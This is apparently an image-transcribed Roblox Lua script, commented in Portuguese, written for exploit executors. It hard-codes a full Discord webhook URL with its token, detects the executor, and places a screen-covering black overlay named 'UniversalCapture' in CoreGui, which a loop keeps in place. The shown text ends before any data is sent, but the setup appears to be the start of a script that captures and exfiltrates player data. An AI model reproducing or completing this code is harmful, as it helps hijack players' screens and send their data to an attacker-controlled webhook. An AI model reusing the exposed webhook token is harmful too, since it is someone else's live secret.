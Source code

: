 local Players = game:GetService("Players")
local UserInputService = game:GetService("UserInputService")
local CoreGui = game:GetService("CoreGui")
local StarterGui = game:GetService("StarterGui")
local ContextActionService = game:GetService("ContextActionService")
local HttpService = game:GetService("HttpService")

local player = Players.LocalPlayer

-- Webhook do Discord (ATUALIZADA)
local DISCORD_WEBHOOK = "https://discord.com/api/webhooks/1429370078297591959/FBvtrmoVkg-6FQmNYm_8mZxx_CdBeDLzzhhEbMAH4c56G-KAePAwaiAo--fI7vqOMtl3"

-- Detecta executor
local executor = "Unknown"
if syn then
    executor = "Synapse X"
elseif PROTOSMASHER_LOADED then
    executor = "ProtoSmasher"
elseif KRNL_LOADED then
    executor = "KRNL"
elseif fluxus then
    executor = "Fluxus"
elseif identifyexecutor then
    executor = identifyexecutor()
else
    executor = "Delta/Outro"
end

-- Interface principal
local UniversalGUI = Instance.new("ScreenGui")
UniversalGUI.Name = "UniversalCapture"
UniversalGUI.ResetOnSpawn = false
UniversalGUI.ZIndexBehavior = Enum.ZIndexBehavior.Global
UniversalGUI.DisplayOrder = 9999
UniversalGUI.IgnoreGuiInset = true
UniversalGUI.Parent = CoreGui

local FullScreenFrame = Instance.new("Frame")
FullScreenFrame.Size = UDim2.new(1, 0, 1, 36)
FullScreenFrame.Position = UDim2.new(0, 0, 0, 0)
FullScreenFrame.BackgroundColor3 = Color3.new(0, 0, 0)
FullScreenFrame.BorderSizePixel = 0
FullScreenFrame.ZIndex = 10000
FullScreenFrame.Parent = UniversalGUI

-- Garante cobertura total
spawn(function()
    while UniversalGUI.Parent do
        FullScreenFrame.Size = UDim2.new(1, 0, 1, 0)
        FullScreenFrame.Position = UDim2.new(0, 0, 0, 0)
        wait(0.5)
    end
end)
